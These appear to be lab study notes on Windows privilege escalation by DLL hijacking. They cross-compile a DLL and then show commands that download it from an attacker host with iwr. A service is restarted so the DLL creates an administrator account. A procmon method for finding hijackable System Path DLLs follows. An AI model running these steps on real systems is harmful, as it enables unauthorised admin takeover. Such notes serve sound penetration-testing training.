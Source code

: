 Now, cross-compile the code with mingw, adding the *--shared* argument to specify that we want to build a DLL.

```bash
x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

Then on the Windows machine..

```bash
cd Documents
iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll
net user
Restart-Service BetaService
net user
net localgroup administrators  # Confirm that the new user is created (with administrators privileges)
```

### Writable System Path DLL Hijacking

The first thing you need is to identify a process running with more privileges than you that is trying to load a Dll from the System Path you can write in.

The problem in this cases is that probably thoses processes are already running. To find which Dlls are lacking the services you need to launch procmon as soon as possible (before processes are loaded). So, to find lacking .dlls..

	Create the folder C:\privesc_hijacking and add the path C:\privesc_hijacking to System Path env variable. You can do this manually or with PS.

```bash
# Set the folder path to create and check events for
$folderPath = "C:\privesc_hijacking"

# Create the folder if it does not exist
if (!(Test-Path $folderPath -PathType Container)) {
    New-Item -ItemType Directory -Path $folderPath | Out-Null
}

# Set the folder path in the System environment variable PATH
$envPath = [Environment]::GetEnvironmentVariable("PATH", "Machine")
if ($envPath -notlike "*$folderPath*") {
    $newPath = "$envPath;$folderPath"
    [Environment]::SetEnvironmentVariable("PATH", $newPath, "Machine")
}
```


    Launch procmon and go to Options --> Enable boot logging and press OK in the prompt.
    Then, reboot. When the computer is restarted procmon will start recording events asap.
    Once Windows is started execute procmon again, it'll tell you that it has been running and will ask you if you want to store the events in a file. Say yes and store the events in a file.
    After the file is generated, close the opened procmon window and open the events file.
    Add these filters and you will find all the Dlls that some proccess tried to load from the writable System Path folder. [Result Y, Path Y]


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname